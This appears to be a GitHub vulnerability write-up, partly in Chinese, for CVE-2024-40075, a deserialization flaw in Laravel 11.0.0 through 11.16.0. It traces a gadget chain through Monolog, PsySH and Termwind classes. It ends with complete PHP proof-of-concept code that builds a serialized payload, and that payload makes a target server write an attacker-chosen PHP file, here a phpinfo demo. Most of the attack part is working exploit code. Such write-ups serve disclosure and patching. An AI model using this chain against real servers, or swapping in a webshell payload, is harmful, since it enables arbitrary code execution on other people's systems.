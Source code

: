 # CVE-2024-40075

>   Laravel是Laravel社区的一个Web 应用程序框架。

## 来源

[https://gitee.com/Q16G/laravel_bug](https://gitee.com/Q16G/laravel_bug)

## 简介

Laravel存在反序列化漏洞，由于 Monolog\Handler\Handle 类的 __destruct 方法调用了 close 方法，GroupHandler 重载了并调用每个 handler 的 close 方法，反序列化恶意对象时会通过 getStreamName 方法调用对象的 __toString 方法，攻击者可利用应用中存在的反序列化逻辑，构造基于laravel的反序列化利用链执行任意代码。

## 影响范围

反序列化

## 漏洞类型

-   11.0.0 <= laravel <= 11.16.0

## laravel env

```
composer create-project laravel/laravel laravel
```

## detail

1) First look for the __destruct function, traced here to Monolog\Handler\Handler, first see that it is an abstract class, the abstract class defines __destruct subclasses, if not overwritten, it will directly call the __destruct function of the parent class. The close method is called in __destruct, as shown in the figure below, we just need to find a subclass that overrides the close method, not the __destruct method (groupHandler is a good choice).


### Monolog\Handler\Handler

![alt text](./imgs/image.png)

### Monolog\Handler\GroupHandler

In the groupHandler close method, handlers are iterated through and the close method is executed, so you just keep looking for them according to the close method.

![alt text](./imgs/image2.png)

### Psy\Readline\Hoa\Stream

The close method is found, first the getStreamName method is called, then the md5 function is done, so you just need to find a __tostring trigger. Stream, on the other hand, is an abstract class, so just look for the implementation class. I'm going to go with Psy\Readline\Hoa\FileRead.

![alt text](./imgs/image3.png)

### Termwind\Components\Element

Because __tostring function calls tostring function, so directly look at the tostring function, here called $this->stypes->format function, so directly find the format function can be.

![alt text](./imgs/image4.png)

### Termwind\ValueObjects\Styles

The command can be executed.

## POP chain

```php
<?php

namespace Monolog\Handler{
    class GroupHandler {
        protected array $handlers;

        public function __construct($oa){
            $this->handlers[0]=$oa;
        }
    }
}
namespace Psy\Readline\Hoa{
    class FileRead{
        protected $_bucket = [];
        public function __construct($oa){
            $this->_bucket[0]=$oa;
            $this->_bucket[2]=$oa;
        }
    }
}
namespace Termwind\Components{
    use Termwind\ValueObjects\Styles;
    final class Hr extends Element{
        public function __construct($oa){
            $this->styles = $oa;
            $this->content = "testtestest.php";
        }
    }
    abstract class Element
    {
    protected static array $defaultStyles = [];
    protected Styles $styles;
    protected array|string $content;
}
}

namespace Termwind\ValueObjects{
    final class Styles{
        private array $textModifiers = ['file_put_contents'];
        private array $properties = [
            'styles' => "<?php phpinfo();",
            'parentStyles' => 0,
        ];
    }
}


namespace{
    $styles = new Termwind\ValueObjects\Styles;
    $hr = new Termwind\Components\Hr($styles);
    $o2 = new Psy\Readline\Hoa\FileRead($hr);
    $o3 = new Monolog\Handler\GroupHandler($o2);
    echo urlencode(serialize($o3));
}

```
